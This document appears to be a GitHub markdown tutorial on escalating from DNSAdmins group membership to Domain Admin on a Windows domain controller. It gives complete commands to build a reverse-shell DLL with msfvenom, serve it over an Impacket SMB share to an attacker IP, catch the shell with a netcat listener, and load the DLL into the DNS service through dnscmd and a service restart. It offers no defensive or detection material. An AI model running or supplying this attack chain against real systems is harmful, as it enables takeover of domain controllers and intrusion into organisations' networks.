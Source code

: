 # Windows Privilege Escalation: DNSAdmins to Domain Admins - Server Level DLL Injection

Say you have compromised a Windows machine that provides Active Directory Directory Services to its users and have gained access as a user who is a part of the DNSAdmins group, you can use this method to privilege escalate.

Here, what we're doing is:

1. Making a dll payload that sends a reverse shell back to our machine with msfvenom.
2. Serving it using SMB Server to make it available to the Windows machine. (You can use any other way to transfer it to the remote machine, but be careful, it might get nuked by the Anti-Virus.) And, we will also setup a netcat listener to catch our reverse shell.
3. Importing that dll in the DNS Server.
4. Restarting the DNS Server so that it loads the dll file.

Checking if your user is a part of the DNSAdmins group:

```powershell
whoami /all
```

Now, on to the fun part:

#making the payload

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.211.55.13 LPORT=4444 --platform=windows -f dll > ~/windows/privesc/plugin.dll
```

Here, because the Windows machine is of 64 bit achitechture, we're using x64 payload.

#serving the file using SMB Server using smbserver.py, that comes with Python3-Impacket.

```powershell
cd /usr/share/doc/python3-impacket/examples
./smbserver.py SHARE ~/windows/privesc/
```

In another terminal tab, set up a netcat listener to catch the reverse shell:

```powershell
nc -nvlp 4444
```

## Now, in the compromised Windows machine

##### Importing the plugin:

```powershell
dnscmd.exe myserver.local /config /serverlevelplugindll \\10.211.55.13\share\plugin.dll
```

##### Restarting the service:

```powershell
sc.exe stop dns
sc.exe start dns
```

Now, go back and check the netcat listener, you should have a reverse shell.

You're Welcome!

